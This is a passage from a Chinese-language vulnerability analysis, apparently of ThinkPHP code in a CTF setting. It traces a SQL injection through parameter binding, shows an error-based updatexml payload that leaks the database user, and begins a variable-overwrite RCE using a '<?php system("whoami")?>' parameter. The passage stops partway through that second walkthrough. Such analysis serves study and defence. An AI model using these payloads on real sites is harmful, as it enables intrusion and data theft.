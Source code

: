 随后在 `update()` 中调用了 `execute()` 函数，执行了如下代码

```
if(!empty($this-&gt;bind))`{`
    $that   =   $this;
    $this-&gt;queryStr =   strtr($this-&gt;queryStr,array_map(function($val) use($that)`{` return '\''.$that-&gt;escapeString($val).'\''; `}`,$this-&gt;bind));
`}`
```

这里就将 `:0` 替换为了我们传入的password的值，SQL语句也就变为了 `"UPDATE `user` SET `password`='1' WHERE `id` = '1' and updatexml(1,concat(0x7e,user(),0x7e),1)"`，所以我们在传参的时候 `id[1]` 最开始的字符传入的是0，才能去除掉冒号。最后SQL注入成功。



## 0x06 变量覆盖导致命令执行

触发rce的代码如下。

```
public function test($name='', $from='ctfshow')
`{`
    $this-&gt;assign($name, $from);
    $this-&gt;display('index');
`}`
```

先调用 `assign()` 函数。

```
public function assign($name, $value='')
`{`
    if (is_array($name)) `{`
        $this-&gt;tVar   =  array_merge($this-&gt;tVar, $name);
    `}` else `{`
        $this-&gt;tVar[$name] = $value;
    `}`
`}`
```

当我们传入 `?name=_content&amp;from=&lt;?php system("whoami")?&gt;` 时经过 `assign()` 函数后就有：`$this-&gt;view-&gt;tVar["_content"]="&lt;?php system("whoami")?&gt;"`

`display()` 函数跟进，`$content` 获取模板内容。

```
public function display($templateFile='', $charset='', $contentType='', $content='', $prefix='')
`{`
    G('viewStartTime');
    // 视图开始标签
    Hook::listen('view_begin', $templateFile);
    // 解析并获取模板内容
    $content = $this-&gt;fetch($templateFile, $content, $prefix);
    // 输出模板内容
    $this-&gt;render($content, $charset, $contentType);
    // 视图结束标签
    Hook::listen('view_end');
`}`
```

